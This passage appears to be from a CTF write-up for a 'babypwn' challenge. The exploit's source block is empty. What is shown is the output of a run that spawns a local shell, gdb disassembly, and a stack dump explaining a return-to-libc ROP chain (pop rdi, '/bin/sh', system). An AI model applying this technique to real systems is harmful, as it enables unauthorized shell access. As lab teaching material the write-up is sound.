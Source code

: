 ```python



```

when we run the exploit , it's gonna work and give us a shell 


```python

vagrant@vagrant:~/pwn/pwn_university2018/babypwn$ python writeup.py
[+] Starting local process '/home/vagrant/pwn/pwn_university2018/babypwn/babypwn': pid 2132
[2132]
[*] Paused (press any to continue)
[*] Switching to interactive mode
Welcome student! Can you run /bin/sh
$ id
uid=1000(vagrant) gid=1000(vagrant) groups=1000(vagrant),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)

```

let's see what happened in the low level and how we obtain the shell 


```python

   0x0000000000401166 <+32>:	nop
   0x0000000000401167 <+33>:	leave
   0x0000000000401168 <+34>:	ret
End of assembler dump.
gdb-peda$ b *0x0000000000401166
Breakpoint 1 at 0x401166

```
when we run the exploit that's what happened 

```python
   0x401167 <copy+33>:	leave
=> 0x401168 <copy+34>:	ret
   0x401169 <main>:	push   rbp
   0x40116a <main+1>:	mov    rbp,rsp
   0x40116d <main+4>:	lea    rdi,[rip+0xe9c]        # 0x402010
   0x401174 <main+11>:	call   0x401030 <puts@plt>
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe448 --> 0x401203 (<__libc_csu_init+99>:	pop    rdi)
0008| 0x7fffffffe450 --> 0x7ffff7b99d57 --> 0x68732f6e69622f ('/bin/sh')
0016| 0x7fffffffe458 --> 0x7ffff7a52390 (<__libc_system>:	test   rdi,rdi)
0024| 0x7fffffffe460 --> 0x0
0032| 0x7fffffffe468 --> 0x7fffffffe538 --> 0x7fffffffe758 ("/home/vagrant/pwn/pwn_university2018/babypwn/babypwn")
0040| 0x7fffffffe470 --> 0x1f7ffcca0
0048| 0x7fffffffe478 --> 0x401169 (<main>:	push   rbp)
0056| 0x7fffffffe480 --> 0x0


```
the stack will pop rdi then /bin/sh will insert to rdi , then it will return to libc_system 
